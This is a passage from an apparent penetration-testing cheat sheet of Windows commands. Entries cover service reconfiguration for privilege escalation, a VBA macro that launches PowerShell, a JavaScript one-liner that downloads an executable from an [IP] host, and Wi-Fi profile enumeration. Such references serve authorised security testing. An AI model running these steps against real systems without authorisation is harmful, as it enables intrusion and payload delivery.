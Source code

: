 http://www.fuzzysecurity.com/tutorials/16.html
http://pentestmonkey.net/tools/windows-privesc-check
__________
### 34. Unquoted Service Paths, start service
```
sc config "[SERVICE]" start= auto
```
**- enumeration,Windows,privilege escalation**
#### References:

http://www.fuzzysecurity.com/tutorials/16.html
http://pentestmonkey.net/tools/windows-privesc-check
__________
### 35. Unquoted Service Paths
```
sc config "[SERVICE]" start= disabled
```
**- enumeration,Windows**
#### References:

http://www.fuzzysecurity.com/tutorials/16.html
http://pentestmonkey.net/tools/windows-privesc-check
__________
### 36. VBA launching command
```
Sub Test();Shell ("powershell");End Sub
```
**- Windows**
#### References:

https://yg.ht
https://support.smartbear.com/testcomplete/docs/testing-with/advanced/using-external-functions/running-powershell-scripts.html
__________
### 37. Javascript wget windows oneline : cscript /nologo wget.js http://[IP]
```
echo var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");WinHttpReq.Open("GET",WScript.Arguments(0), /*async=*/false);WinHttpReq.Send();BinStream = new ActiveXObject("ADODB.Stream");BinStream.Type=1;BinStream.Open();BinStream.Write(WinHttpReq.ResponseBody);BinStream.SaveToFile("out.exe");>wget.js
```
**- pivoting,files,Windows**
#### References:

http://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-is-doing
__________
### 38. Windows Wireless
```
netsh wlan show profile
```
**- networking,passwords,enumeration,Windows,wireless,wifi**
#### References:
